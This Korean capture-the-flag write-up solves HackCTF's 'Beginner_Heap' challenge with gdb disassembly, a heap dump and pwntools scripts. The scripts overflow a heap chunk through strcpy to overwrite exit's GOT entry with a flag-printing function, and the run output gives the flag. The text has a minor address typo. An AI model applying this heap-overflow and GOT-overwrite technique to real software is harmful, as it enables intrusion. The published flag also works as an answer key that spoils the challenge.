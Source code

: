 # Beginner_Heap

---

ida를 통해서 `main()`의 시작 주소가 0x6008a8임을 알았고, `main()`의 코드는 다음과 같다.
```gdb
    gdb-peda$ x/52i 0x4008a8
       0x4008a8:	push   rbp
       0x4008a9:	mov rbp,rsp
       0x4008ac:	sub rsp,0x1030
       0x4008b3:	mov DWORD PTR [rbp-0x1024],edi
       0x4008b9:	mov QWORD PTR [rbp-0x1030],rsi
       0x4008c0:	mov rax,QWORD PTR fs:0x28
       0x4008c9:	mov QWORD PTR [rbp-0x8],rax
       0x4008cd:	xor eax,eax
       0x4008cf:	mov edi,0x10
       0x4008d4:	call   0x4006d0 <malloc@plt>
       0x4008d9:	mov QWORD PTR [rbp-0x1020],rax
       0x4008e0:	mov rax,QWORD PTR [rbp-0x1020]
       0x4008e7:	mov DWORD PTR [rax],0x1
       0x4008ed:	mov edi,0x8
       0x4008f2:	call   0x4006d0 <malloc@plt>
       0x4008f7:	mov rdx,rax
       0x4008fa:	mov rax,QWORD PTR [rbp-0x1020]
       0x400901:	mov QWORD PTR [rax+0x8],rdx
       0x400905:	mov edi,0x10
       0x40090a:	call   0x4006d0 <malloc@plt>
       0x40090f:	mov QWORD PTR [rbp-0x1018],rax
       0x400916:	mov rax,QWORD PTR [rbp-0x1018]
       0x40091d:	mov DWORD PTR [rax],0x2
       0x400923:	mov edi,0x8
       0x400928:	call   0x4006d0 <malloc@plt>
       0x40092d:	mov rdx,rax
       0x400930:	mov rax,QWORD PTR [rbp-0x1018]
       0x400937:	mov QWORD PTR [rax+0x8],rdx
       0x40093b:	mov rdx,QWORD PTR [rip+0x20074e]# 0x601090 <stdin>
       0x400942:	lea rax,[rbp-0x1010]
       0x400949:	mov esi,0x1000
       0x40094e:	mov rdi,rax
    => 0x400951:	call   0x4006c0 <fgets@plt>
       0x400956:	mov rax,QWORD PTR [rbp-0x1020]
       0x40095d:	mov rax,QWORD PTR [rax+0x8]
       0x400961:	lea rdx,[rbp-0x1010]
       0x400968:	mov rsi,rdx
       0x40096b:	mov rdi,rax
       0x40096e:	call   0x400690 <strcpy@plt>
       0x400973:	mov rdx,QWORD PTR [rip+0x200716]# 0x601090 <stdin>
       0x40097a:	lea rax,[rbp-0x1010]
       0x400981:	mov esi,0x1000
       0x400986:	mov rdi,rax
       0x400989:	call   0x4006c0 <fgets@plt>
       0x40098e:	mov rax,QWORD PTR [rbp-0x1018]
       0x400995:	mov rax,QWORD PTR [rax+0x8]
       0x400999:	lea rdx,[rbp-0x1010]
       0x4009a0:	mov rsi,rdx
       0x4009a3:	mov rdi,rax
       0x4009a6:	call   0x400690 <strcpy@plt>
       0x4009ab:	mov edi,0x0
       0x4009b0:	call   0x400710 <exit@plt>
```
코드의 전체적인 내용은 청크를 4개 할당하고, 그 중에서 2번째와 4번째 청크에 rbp-1010에 받아두었던 0x1000만큼의 문자열을 복사한다.

일단 0x400951에서 break를 걸고, 청크의 모습을 확인해보니 다음과 같았다.
```gdb
    gdb-peda$ x/20gx 0x602000
    0x602000:	0x0000000000000000	0x0000000000000021
    0x602010:	0x0000000000000001	0x0000000000602030
    0x602020:	0x0000000000000000	0x0000000000000021
    0x602030:	0x0000000000000000	0x0000000000000000
    0x602040:	0x0000000000000000	0x0000000000000021
    0x602050:	0x0000000000000002	0x0000000000602070
    0x602060:	0x0000000000000000	0x0000000000000021
    0x602070:	0x0000000000000000	0x0000000000000000
    0x602080:	0x0000000000000000	0x0000000000020f81
    0x602090:	0x0000000000000000	0x0000000000000000
```
익스 시나리오는 다음과 같다. 첫번째 `strcpy()`를 통해서 다음 `strcpy()`를 할때 주소를 참조할 0x602058에 stack에서 ret주소를 저장하고 있는 주소를 담고, 그 밑에는 shellcode를 담는다. 이후 다음 `strcpy()`에서는 shellcode의 주소를 적는다. 그렇게 하면 shellcode로 ret되어서 쉘을 따낼 수 있을 것이다.

하지만 NX 보안이 걸려있어서 heap영역에 data를 쓸 수는 있지만 이를 실행시킬 수는 없다. 또한 code영역을 수정할 수 없다. 그래서 다른 방법을 찾아보자.

---

우선 원하는 영역에 원하는 데이터를 쓸 수 있는 능력을 가지고 있다. 

got overwrite를 통해서 system을 불러 오려고 하여도 1번 밖에 쓰지를 못하기 때문에 불가능하고, one_gadget을 쓰려고 해도 leak이 불가능하기 때문에 힘들었다.

그러다가 ida를 보니 sub_400826이 flag를 출력해주는 함수였다.... 여기로 ret시키겠다.

exit의 got주소는 0x601068이다.
```gdb
    gdb-peda$ got
    
    /home/sjy0175/Desktop/HackCTF/beginner_heap.bin: file format elf64-x86-64
    
    DYNAMIC RELOCATION RECORDS
    OFFSET   TYPE  VALUE 
    ...
    0000000000601060 R_X86_64_JUMP_SLOT  getline@GLIBC_2.2.5
    0000000000601068 R_X86_64_JUMP_SLOT  exit@GLIBC_2.2.5
```
이 곳에 0x400826을 쓸 것이다.

그래서 코드를 다음과 같이 짜보았다.
```python
    from pwn import*
    
    p=process('./beginner_heap.bin')
    
    func_flag=0x400826
    got_exit=0x601068
    
    payload1='\x00'*24
    payload1+='\x21\x00\x00\x00\x00\x00\x00\x00'
    payload1+='\x02\x00\x00\x00\x00\x00\x00\x00'
    payload1+=p64(got_exit)
    
    p.send(payload1)
    
    log.info(payload1)
    
    p.send(p64(func_flag))
```
하지만 이 코드는 `strcpy()`에서 문자열을 복사할 때, '\x00'을 문자열의 끝이라 인식하여 제대로 복사하지 않는 문제점이 있었다. 따라서 코드를 다음과 같이 수정했다.
```python
    from pwn import*
    
    p=process('./beginner_heap.bin')
    
    func_flag=0x400826
    got_exit=0x601068
    
    payload1='A'*40
    payload1+=p64(got_exit)
    
    p.send(payload1)
    
    log.info(payload1)
    
    p.send(p64(func_flag))
```
하지만 이 코드도 문제점이 있었다.

첫번째 send와 두번째 send사이에 공백이 없어서 한꺼번에 인자가 들어갔기 때문이다. 따라서 코드를 다음과 같이 고치고 remote로 수정한다음 실행하면 flag를 얻을 수 있다.
```python
    from pwn import*
    
    p=remote("ctf.j0n9hyun.xyz", 3016)
    
    func_flag=0x400826
    got_exit=0x601068
    
    payload='A'*40
    payload+=p64(got_exit)
    
    p.sendline(payload)
    
    log.info(payload)
    
    p.sendline(p64(func_flag))
    
    print p.recvline()
```
flag는 다음과 같다.
```bash
    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF$ python ex.py
    [+] Opening connection to ctf.j0n9hyun.xyz on port 3016: Done
    [*] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAh\x10`\x00\x00\x00\x00\x00
    HackCTF{4r3_y0u_r34dy_w3lc0m3_70_h34p_53k41}
    
    [*] Closed connection to ctf.j0n9hyun.xyz port 3016
```
**flag=HackCTF{4r3_y0u_r34dy_w3lc0m3_70_h34p_53k41}**
